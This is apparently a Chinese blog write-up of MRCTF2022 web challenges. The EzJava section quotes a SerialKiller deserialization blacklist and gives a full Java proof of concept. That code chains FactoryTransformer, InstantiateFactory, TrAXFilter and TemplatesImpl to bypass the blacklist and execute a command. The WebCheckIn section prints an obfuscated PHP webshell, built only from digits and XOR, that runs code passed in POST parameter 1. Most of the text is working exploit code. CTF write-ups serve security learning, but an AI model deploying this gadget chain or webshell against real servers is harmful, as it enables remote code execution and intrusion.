

EzJava
题目分析
有两个附件
serialkiller.xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- serialkiller.conf -->
<config>
<refresh>6000</refresh>
<mode>
<!-- set to 'false' for blocking mode -->
<profiling>false</profiling>
</mode>
<logging>
<enabled>false</enabled>
</logging>
<blacklist>
<!-- ysoserial's CommonsCollections1,3,5,6 payload -->
<regexp>org\.apache\.commons\.collections\.Transformer$</regexp>
<regexp>org\.apache\.commons\.collections\.functors\.InvokerTransformer$</regexp>
<regexp>org\.apache\.commons\.collections\.functors\.ChainedTransformer$</regexp>
<regexp>org\.apache\.commons\.collections\.functors\.ConstantTransformer$</regexp>
<regexp>org\.apache\.commons\.collections\.functors\.InstantiateTransformer$</regexp>
<!-- ysoserial's CommonsCollections2,4 payload -->
<regexp>org\.apache\.commons\.collections4\.functors\.InvokerTransformer$</regexp>
<regexp>org\.apache\.commons\.collections4\.functors\.ChainedTransformer$</regexp>
<regexp>org\.apache\.commons\.collections4\.functors\.ConstantTransformer$</regexp>
<regexp>org\.apache\.commons\.collections4\.functors\.InstantiateTransformer$</regexp>
<regexp>org\.apache\.commons\.collections4\.comparators\.TransformingComparator$</regexp>
</blacklist>
<whitelist>
<regexp>.*</regexp>
</whitelist>
</config>这是SerialKiller的配置xml文件，过滤掉了一些类
将得到的另一个jar包进行反编译得到class文件和依赖，有commons-collections-3.2.1.jar依赖
搜索之后可以知道FactoryTransformer存在一个transform方法
public Object transform(Object input) {
return iFactory.create();
}调用了iFactory的create的方法， 我们寻找实现了Factory接口的类

很明显就是这两个了(CC3中就是用的ConstantTransformer和InstantiateTransformer)
跟进代码，都实现了Serializable接口，可以序列化操作
ConstantFactory#create
public Object create() {
return iConstant;
}调用他的create方法就会直接返回一个对象
InstantiateFactory#create
public Object create() {
// needed for post-serialization
if (iConstructor == null) {
findConstructor();
}
try {
return iConstructor.newInstance(iArgs);
} catch (InstantiationException ex) {
throw new FunctorException("InstantiateFactory: InstantiationException", ex);
} catch (IllegalAccessException ex) {
throw new FunctorException("InstantiateFactory: Constructor must be public", ex);
} catch (InvocationTargetException ex) {
throw new FunctorException("InstantiateFactory: Constructor threw an exception", ex);
}
}他的create方法就会将对象实例化
这样我们参考CC3链，通过TrAXFilter类
public TrAXFilter(Templates templates) throws
TransformerConfigurationException
{
_templates = templates;
_transformer = (TransformerImpl) templates.newTransformer();
_transformerHandler = new TransformerHandlerImpl(_transformer);
_overrideDefaultParser = _transformer.overrideDefaultParser();
}在实例化之后就会直接调用templates.newTransformer进行触发
POC
package ysoserial.vulndemo;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.FactoryTransformer;
import org.apache.commons.collections.functors.InstantiateFactory;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.DefaultedMap;
import org.nibblesec.tools.SerialKiller;
import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;
public class CC3_plusplus {
public static void setFieldValue(Object obj, String fieldname, Object value) throws Exception {
Field field = obj.getClass().getDeclaredField(fieldname);
field.setAccessible(true);
field.set(obj, value);
}
public static void unserialize(String base64) throws Exception{
byte[] decode = Base64.getDecoder().decode(base64);
//使用serialKiller
ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(decode);
ObjectInputStream objectInputStream = new SerialKiller(byteArrayInputStream, "E:/book/ezjava/serialKiller.xml");
objectInputStream.readObject();
}
public static String serialize(Object obj)throws Exception{
ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
objectOutputStream.writeObject(obj);
objectOutputStream.close();
byte[] bytes = byteArrayOutputStream.toByteArray();
String s = Base64.getEncoder().encodeToString(bytes);
return s;
}
public static byte[][] createTemplates() throws Exception{
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc\");";
ClassPool pool = ClassPool.getDefault();
CtClass ctClass = pool.makeClass("Evil");
ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
ctClass.makeClassInitializer().insertBefore(cmd);
byte[] bytes = ctClass.toBytecode();
return new byte[][]{bytes};
}
public static void main(String[] args) throws Exception{
//创建一个TemplatesImpl对象
TemplatesImpl templates = new TemplatesImpl();
setFieldValue(templates, "_name", "RoboTerh");
setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
setFieldValue(templates, "_bytecodes", createTemplates());
//利用ConstantFactory和InstantiateFactory
InstantiateFactory instantiateFactory = new InstantiateFactory(TrAXFilter.class, new Class[]{Templates.class}, new Object[]{templates});
//factoryTransformer的会调用instantiateFactory的create方法
FactoryTransformer factoryTransformer = new FactoryTransformer(instantiateFactory);
//构造一个假的transformer
ConstantTransformer fakeTransformer = new ConstantTransformer(1);
//构建利用链
HashMap innermap = new HashMap();
Map outermap = DefaultedMap.decorate(innermap, fakeTransformer);
TiedMapEntry tme = new TiedMapEntry(outermap, "keykey");
HashMap expMap = new HashMap();
expMap.put(tme, "valuevalue");
//反射传入真的transformer
setFieldValue(outermap, "value", factoryTransformer);
//删除keykey，消除影响
expMap.remove("keykey");
String serialize = serialize(expMap);
System.out.println(serialize);
unserialize(serialize);
}
}这就弹出了计算器
后面就是注入spring内存马
WebCheckIn
学到一个小trick
来自r3kapig的webshell
是靠构造CHR以及动态拼接特性
<?php
(((((9999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
99).(9))^((9.9999999999999999^9).(9.9999999999999999^9).
(9.9999999999999999^9))^((99).(9))^((9).(9.9999999999999999))^((9^9).
(9.9999999999999999^9^99.999999999999999^99).(9^9))^((9^9).(9^9).
(9^9))^((99.9).(9)))(((.999999999999999).(.999999999999999).
((9.9999999999999999^9)^((.999999999999999)^(9^((.999999999999999).
(.999999999999999)))^(9.9999999999999999^9^99.999999999999999^99)))))).
((((99999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
9).(9))^((9.9999999999999999^9).(9.9999999999999999^9).
(9.9999999999999999^9))^((99).(9))^((9).(9.9999999999999999))^((9^9).
(9.9999999999999999^9^99.999999999999999^99).(9^9))^((9^9).(9^9).
(9^9))^((99.9).(9)))(((.999999999999999).(9^((.999999999999999).
(.999999999999999))).(.999999999999999)))).
((((99999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
9).(9))^((9.9999999999999999^9).(9.9999999999999999^9).
(9.9999999999999999^9))^((99).(9))^((9).(9.9999999999999999))^((9^9).
(9.9999999999999999^9^99.999999999999999^99).(9^9))^((9^9).(9^9).
(9^9))^((99.9).(9)))(((.999999999999999).(.999999999999999).
1
2
((9.9999999999999999^9)^((.999999999999999)^(9^((.999999999999999).
(.999999999999999)))^(9.9999999999999999^9^99.999999999999999^99)))))).
((((99999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
9).(9))^((9.9999999999999999^9).(9.9999999999999999^9).
(9.9999999999999999^9))^((99).(9))^((9).(9.9999999999999999))^((9^9).
(9.9999999999999999^9^99.999999999999999^99).(9^9))^((9^9).(9^9).
(9^9))^((99.9).(9)))(((.999999999999999).(.999999999999999).
((.999999999999999)^(9^((.999999999999999).
(.999999999999999)))^(9.9999999999999999^9^99.999999999999999^99))))).
((((99999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
9).(9))^((9.9999999999999999^9).(9.9999999999999999^9).
(9.9999999999999999^9))^((99).(9))^((9).(9.9999999999999999))^((9^9).
(9.9999999999999999^9^99.999999999999999^99).(9^9))^((9^9).(9^9).
(9^9))^((99.9).(9)))(((.999999999999999).(9^9).(.999999999999999)))).
((((99999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999
9).(9))^((9.9999999999999999^9).(9.9999999999999999^9).
(9.9999999999999999^9))^((99).(9))^((9).(9.9999999999999999))^((9^9).
(9.9999999999999999^9^99.999999999999999^99).(9^9))^((9^9).(9^9).
(9^9))^((99.9).(9)))(((.999999999999999).(9^9).(9)))))($_POST[1])Springcoffee
I'm so cute. Please give me money.


- Post link: https://roboterh.github.io/2022/04/26/MRCTF2022-web/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.